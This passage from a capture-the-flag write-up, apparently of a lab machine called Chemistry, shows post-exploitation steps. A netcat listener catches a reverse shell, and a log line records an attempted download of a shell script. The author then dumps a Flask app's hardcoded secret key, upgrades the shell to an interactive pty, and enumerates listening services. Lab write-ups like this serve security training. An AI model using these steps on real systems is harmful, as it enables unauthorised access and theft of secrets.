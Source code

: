 ```bash
nc -nvlp 7777
Listening on 0.0.0.0 7777
Connection received on 10.129.29.110 38378
bash: cannot set terminal process group (1044): Inappropriate ioctl for device
bash: no job control in this shell
app@chemistry:~$ id
id
uid=1001(app) gid=1001(app) groups=1001(app)
```

There was an odd quirk where when trying to download and run a bash shell that the letter c would be prepended with *, seen here `10.129.29.110 - - [19/Oct/2024 21:48:53] "GET /ra*c*coonshell.sh HTTP/1.1" 404 -`.


## database.db

Seeing this was probably a flask app from earlier enumeration the **app.py** file will contain all routes and potential secrets.

```bash
app@chemistry:~$ cat app.py
cat app.py
from flask import Flask, render_template, request, redirect, url_for, flash
from werkzeug.utils import secure_filename
from flask_sqlalchemy import SQLAlchemy
from flask_login import LoginManager, UserMixin, login_user, login_required, logout_user, current_user
from pymatgen.io.cif import CifParser
import hashlib
import os
import uuid

app = Flask(__name__)
app.config['SECRET_KEY'] = 'MyS3cretCh3mistry4PP'
app.config['SQLALCHEMY_DATABASE_URI'] = 'sqlite:///database.db'
app.config['UPLOAD_FOLDER'] = 'uploads/'
app.config['ALLOWED_EXTENSIONS'] = {'cif'}
```

sqlite database in use here. Need a better session so I run:

```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
Ctrl-Z
stty raw -echo; fg
export TERM=xterm
```

```bash
app@chemistry:~$ netstat -tunlp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:5000            0.0.0.0:*               LISTEN      1044/python3.9      
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
```